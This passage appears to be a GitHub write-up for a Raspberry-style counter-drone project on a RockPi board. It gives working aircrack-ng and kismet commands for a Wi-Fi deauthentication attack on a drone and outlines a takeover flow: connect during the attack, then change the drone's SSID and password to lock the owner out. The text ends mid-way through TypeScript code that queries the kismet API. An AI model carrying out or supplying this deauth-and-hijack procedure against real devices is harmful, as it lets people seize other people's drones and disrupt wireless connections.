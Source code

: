Two Wi-Fi cards are also required, one of which must be in monitor mode.

> I  chose the RK3399 chip as the card, but the RockPi pre-built Ubuntu Focal **didn't enable** this driver by default; make sure you choose a usable driver will make your life easier.

I use front-end and back-end separated web service architecture as CUAS, meanwhile I use RockPi board as a web server, follow the [document](https://wiki.radxa.com/Rock4/getting_started) write **Ubuntu 20.04 Server** image to it.

After that, install the necessary software `kismet`, `python3.8` and `aircrack-ng`.

### Take a try first

```shell
sudo airmon-ng start <wlan_card> # Enable monitor.

# Browser `localhost:2501` to use kismet web UI,
# you can find drone's MAC address easily.
kismet -c <wlan_card_mon>

# Connect to your drone from phone app, and de-authentication yourself
sudo aireplay -D -deauth 10 -a <drone_macaddr> <another_wlan_card>
```

During a de-auth attack, the connection becomes extremely unstable, even disconnecting.
It's work, huh, but you'll notice your phone is still trying to reconnect, sometimes successfully.

This is a sign to the hacker: the owner can get his drone back, and you don't want this happen.

We need to clean what we exact need.

### Sort out the needs

In theory, the hacking flow should be like this:

1. de-auth attack to break connection from owner and drone.
2. Hacker try connect drone during attack.
3. Once connected, change drone's SSID to avoid owner connect back, also a password is necessary.
4. Hacker can use a controller to control drone.

## Development

### Monitor

Locate to **kismet** web ui > setting > api > api token, create a token that you can use kismet as a web server, there is a API allow you have devices data with closable fields: `/devices/views/phydot11_accesspoints/devices.json`

```typescript
// TypeScript
declare namespace API {
    interface Drone_Data {
        [x: string]: any;
        data?: [];
    }
}

export async function getDroneInfo() {
    return request<API.Drone_Data>(
        "/devices/views/phydot11_accesspoints/devices.json",
        {
            method: "POST",
            params: { KISMET: "a_kismet_api_token" },
            data: {
                fields: [
                    "kismet.device.base.macaddr",
                    "uav.device",
                    "kismet.device.base.commonname",
```